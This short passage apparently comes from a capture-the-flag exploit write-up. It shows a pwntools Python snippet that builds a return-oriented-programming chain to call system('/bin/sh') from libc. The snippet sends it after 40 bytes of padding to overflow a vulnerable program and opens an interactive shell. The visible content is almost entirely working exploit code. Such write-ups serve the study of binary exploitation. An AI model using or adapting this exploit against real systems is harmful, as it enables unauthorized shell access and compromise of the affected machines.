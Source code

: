 ```python
rop.system(next(libc.search(b'/bin/sh')), 0, 0)

io.recvuntil(b'Go ahead \xf0\x9f\x98\x8f')
io.recvline()
io.sendline(b'\x90'*40 + rop.chain())

io.clean()
io.interactive()
```

<p align="center"> <img src="assets/Untitled%2053.png"> </p>